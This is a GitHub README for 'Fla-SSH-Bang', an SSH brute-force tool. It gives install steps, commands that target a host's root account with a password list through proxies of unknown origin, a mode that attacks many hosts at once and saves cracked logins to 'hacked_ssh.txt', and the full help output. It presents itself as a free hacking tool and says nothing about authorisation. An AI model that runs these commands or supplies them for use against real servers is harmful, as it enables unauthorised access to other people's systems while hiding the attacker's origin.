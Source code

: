 # Fla-SSH-Bang
Lightspeed fast SSH bruteforce tool.

This tool is best combined with [Turbo](https://github.com/lilmond/Turbo)

Watch flasshbang2 at play here: https://www.youtube.com/watch?v=ABVO17C8G64

Discord: https://discord.com/invite/Bnf3e8pkyj

![image](https://github.com/user-attachments/assets/a62ef38e-06c8-4b41-8a0e-dcfd0739e2a5)


# Where to get proxies?
You may use my proxy list scraper here (Proxal): https://github.com/lilmond/Proxal

# Installation
For Linux platforms. Execute the commands below. You may copy and paste and execute them all at once.
```
git clone https://github.com/lilmond/flasshbang
cd flasshbang
python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt
```

# Usage

## Examples
Single host target
```
python3 flasshbang.py <target ip> -u root -P samples/pass_list.txt -pp samples/good_proxies.txt 
```

Multi-hosts
```
python3 flasshbang.py -M <host list file> -u root -P samples/pass_list.txt -pp samples/good_proxies.txt -o hacked_ssh.txt 
```

# Help
```

               █████▒██▓    ▄▄▄        ██████   ██████  ██░ ██  ▄▄▄▄    ▄▄▄       ███▄    █   ▄████  ▐██▌
             ▓██   ▒▓██▒   ▒████▄    ▒██    ▒ ▒██    ▒ ▓██░ ██▒▓█████▄ ▒████▄     ██ ▀█   █  ██▒ ▀█▒ ▐██▌
             ▒████ ░▒██░   ▒██  ▀█▄  ░ ▓██▄   ░ ▓██▄   ▒██▀▀██░▒██▒ ▄██▒██  ▀█▄  ▓██  ▀█ ██▒▒██░▄▄▄░ ▐██▌
             ░▓█▒  ░▒██░   ░██▄▄▄▄██   ▒   ██▒  ▒   ██▒░▓█ ░██ ▒██░█▀  ░██▄▄▄▄██ ▓██▒  ▐▌██▒░▓█  ██▓ ▓██▒
             ░▒█░   ░██████▒▓█   ▓██▒▒██████▒▒▒██████▒▒░▓█▒░██▓░▓█  ▀█▓ ▓█   ▓██▒▒██░   ▓██░░▒▓███▀▒ ▒▄▄
              ▒ ░   ░ ▒░▓  ░▒▒   ▓▒█░▒ ▒▓▒ ▒ ░▒ ▒▓▒ ▒ ░ ▒ ░░▒░▒░▒▓███▀▒ ▒▒   ▓▒█░░ ▒░   ▒ ▒  ░▒   ▒  ░▀▀▒
              ░     ░ ░ ▒  ░ ▒   ▒▒ ░░ ░▒  ░ ░░ ░▒  ░ ░ ▒ ░▒░ ░▒░▒   ░   ▒   ▒▒ ░░ ░░   ░ ▒░  ░   ░  ░  ░
              ░ ░     ░ ░    ░   ▒   ░  ░  ░  ░  ░  ░   ░  ░░ ░ ░    ░   ░   ▒      ░   ░ ░ ░ ░   ░     ░
                        ░  ░     ░  ░      ░        ░   ░  ░  ░ ░            ░  ░         ░       ░  ░
                                                                     ░
                        Visit  https://github.com/lilmond for more free hacking tools! :3

usage: flasshbang.py [-h] [-p PORT] [-u USERNAME] -P PASSLIST -pp PROXY_LIST [-t THREADS] [-T THREADS_MULTI]
                     [-M HOST_LIST] [-o OUTPUT]
                     [hostname]

Fla-SSH-Bang! Inspired by vanhauser's hydra (also shoutout to him for creating that wonderful tool!). Super fast SSH
bruteforce tool powered by proxies that who knows where they came from. Written in Python! Number 1 language in the
world!

positional arguments:
  hostname              Target IP address.

options:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  Target port. Default is set to 22.
  -u USERNAME, --username USERNAME
                        SSH user to attack. The default is set to root.
  -P PASSLIST, --passlist PASSLIST
                        Your favorite password list from SecLists!
  -pp PROXY_LIST, --proxy-list PROXY_LIST
                        Not the size of your penis, but the longer your proxy list is, the better!
  -t THREADS, --threads THREADS
                        Threads, idk how to explain what threads are. But the default is set to 10! The more threads,
                        the faster!
  -T THREADS_MULTI, --threads-multi THREADS_MULTI
                        Threads for multi hosts. The default is 3
  -M HOST_LIST, --host-list HOST_LIST
                        File list of hosts to attack.
  -o OUTPUT, --output OUTPUT
                        Success logins output file.
```
